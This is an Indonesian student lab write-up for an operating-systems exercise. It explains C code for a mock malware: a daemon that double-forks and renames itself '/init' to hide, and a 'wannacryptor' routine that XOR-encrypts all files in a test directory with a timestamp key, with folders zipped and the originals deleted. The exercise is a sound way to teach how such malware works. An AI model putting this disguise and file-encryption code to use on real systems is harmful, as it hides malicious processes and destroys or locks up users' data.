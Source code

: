 


## Soal_3
### A. Malware ini bekerja secara daemon dan menginfeksi perangkat korban dan menyembunyikan diri dengan mengganti namanya menjadi `/init`.

```
void daemonize() {
    pid_t pid = fork();
    if (pid > 0) exit(0);     // Parent process keluar
    if (pid < 0) exit(1);     // Fork gagal

    setsid();                 // Membuat session baru agar menjadi daemon
    pid = fork();
    if (pid > 0) exit(0);     // Exit dari session leader

    chdir("/");               // Ganti direktori kerja ke root
    fclose(stdin); 
    fclose(stdout); 
    fclose(stderr);           // Tutup file descriptor standar

    prctl(PR_SET_NAME, "/init");  // Ganti nama proses menjadi /init
}
```
- Forking 2 Kali: Membuat proses menjadi tidak memiliki controlling terminal dan benar-benar berjalan di background.
- `setsid()`: Membuat proses menjadi session leader agar benar-benar terpisah dari terminal.
- `prctl(PR_SET_NAME, "/init")`: Mengubah nama proses di sistem menjadi /init.

### B. Mengimplementasikan fitur wannacryptor yang bertugas untuk melakukan enkripsi pada seluruh file dan folder yang terdapat di direktori target (./test), dengan menggunakan metode XOR berdasarkan timestamp saat program dijalankan.
Untuk kelompok genap, enkripsi folder dilakukan dengan mengubah folder dan isinya menjadi file `.zip`, kemudian file `.zip` tersebut dienkripsi menggunakan XOR dan folder asli akan dihapus.

```
void xor_encrypt(const char *path) {
    FILE *f = fopen(path, "rb+");
    if (!f) return;
    fseek(f, 0, SEEK_END);
    long size = ftell(f);
    rewind(f);

    char *buffer = malloc(size);
    if (!buffer) {
        fclose(f);
        return;
    }
    fread(buffer, 1, size, f);
    rewind(f);
    for (long i = 0; i < size; i++)
        buffer[i] ^= timestamp_key[i % strlen(timestamp_key)];
    fwrite(buffer, 1, size, f);

    free(buffer);
    fclose(f);
}
```
menggunakan metode XOR sederhana untuk mengenkripsi file. Kunci enkripsi didasarkan pada timestamp saat program dijalankan, sehingga hasil enkripsinya berbeda setiap kali program dijalankan.

